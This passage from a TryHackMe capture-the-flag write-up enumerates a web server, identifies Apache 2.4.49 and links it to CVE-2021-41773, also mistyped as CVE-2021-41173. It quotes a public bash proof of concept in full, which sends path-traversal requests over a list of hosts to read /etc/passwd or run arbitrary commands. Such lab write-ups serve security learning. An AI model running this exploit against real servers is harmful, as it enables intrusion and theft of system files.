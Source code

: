 ```
┌──(kali㉿kali)-[~/TryHackMe/ohmyweb]
└─$ curl http://ohmyweb.thm/assets/js/
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
  <title>Index of /assets/js</title>
 </head>
 <body>
<h1>Index of /assets/js</h1>
<ul><li><a href="/assets/"> Parent Directory</a></li>
<li><a href=".DS_Store"> .DS_Store</a></li>
<li><a href="bootstrap.min.js"> bootstrap.min.js</a></li>
<li><a href="circles.min.js"> circles.min.js</a></li>
<li><a href="headroom.min.js"> headroom.min.js</a></li>
<li><a href="imagesloaded.pkgd.min.js"> imagesloaded.pkgd.min.js</a></li>
<li><a href="isotope.pkgd.min.js"> isotope.pkgd.min.js</a></li>
<li><a href="jquery.appear.min.js"> jquery.appear.min.js</a></li>
<li><a href="jquery.counterup.min.js"> jquery.counterup.min.js</a></li>
<li><a href="jquery.magnific-popup.min.js"> jquery.magnific-popup.min.js</a></li>
<li><a href="jquery.nav.js"> jquery.nav.js</a></li>
<li><a href="main-min.js"> main-min.js</a></li>
<li><a href="main.js"> main.js</a></li>
<li><a href="plugins.js"> plugins.js</a></li>
<li><a href="popper.min.js"> popper.min.js</a></li>
<li><a href="scrollIt.min.js"> scrollIt.min.js</a></li>
<li><a href="slick.min.js"> slick.min.js</a></li>
<li><a href="vendor/"> vendor/</a></li>
<li><a href="waypoints.min.js"> waypoints.min.js</a></li>
<li><a href="wow.min.js"> wow.min.js</a></li>
</ul>
</body></html>
```

### Apache server 2.4.49 → CVE-2021-41773

Then the apache version `2.4.49` impress me. After researching, I found out it was the vulnerability related to the **CVE-2021-41173** (LFI & RCE) ⇒ Read more from [this](https://github.com/mr-exo/CVE-2021-41773).

Or viewing the PoC from the exploit path using `searchsploit`:

```
# Exploit Title: Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)
# Date: 10/05/2021
# Exploit Author: Lucas Souza https://lsass.io
# Vendor Homepage:  https://apache.org/
# Version: 2.4.49
# Tested on: 2.4.49
# CVE : CVE-2021-41773
# Credits: Ash Daulton and the cPanel Security Team

#!/bin/bash

if [[ $1 == '' ]]; [[ $2 == '' ]]; then
echo Set [TAGET-LIST.TXT] [PATH] [COMMAND]
echo ./PoC.sh targets.txt /etc/passwd
exit
fi
for host in $(cat $1); do
echo $host
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; $3" "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e$2"; done

# PoC.sh targets.txt /etc/passwd
```